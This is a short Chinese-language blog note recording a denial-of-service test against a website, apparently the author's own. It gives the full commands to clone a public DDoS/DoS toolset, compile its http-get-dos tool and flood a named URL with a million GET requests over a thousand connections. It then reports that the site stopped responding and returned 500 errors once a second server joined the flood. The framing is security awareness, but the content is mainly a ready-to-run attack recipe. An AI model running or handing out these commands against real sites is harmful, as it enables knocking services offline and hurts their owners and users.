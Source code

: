 ```yaml
---
title: "一次简单的http-get攻击"
date: 2022-08-31T07:08:22Z
description: "记录一次简单 Dos 攻击方法，提升网络安全意识."
categories: ["技术笔记集"]
tags: ["dos", "linux", "http-get"]
draft: false
# weight: 5
---
```


使用 [http-get-dos](https://github.com/wenfengshi/ddos-dos-tools/tree/master/http-get-dos) 工具执行。

> http-get-dos是一个简单的、高性能HTTP GET DOS工具，可自定义HTTP请求头、连接数、总的HTTP请求数等
进入目录下make编译后，http-get-dos -h 查看使用信息
> 

来源GitHub项目：DDos/DoS工具集：[https://github.com/wenfengshi/ddos-dos-tools](https://github.com/wenfengshi/ddos-dos-tools)

命令:

```bash
git clone https://github.com/wenfengshi/ddos-dos-tools.git
cd ddos-dos-tools/http-get-dos
make
./http_get_dos -n 1000000 -c 1000 -H "Connection: keep-alive" http://blog.frytea.com/
```

实测采用一台1m阿里云服务器对1m轻量服务器攻击，网站无响应

![%E4%B8%80%E6%AC%A1%E7%AE%80%E5%8D%95%E7%9A%84http-%20186ab/Untitled.png](📒%20Note/knowledge/计算机网络%2072284/一次简单的http-%20186ab/Untitled.png)

实测再加入搬瓦工1G口KVM对阿里云1M轻量服务器攻击，网站瞬间500.

![%E4%B8%80%E6%AC%A1%E7%AE%80%E5%8D%95%E7%9A%84http-%20186ab/Untitled%201.png](📒%20Note/knowledge/计算机网络%2072284/一次简单的http-%20186ab/Untitled%201.png)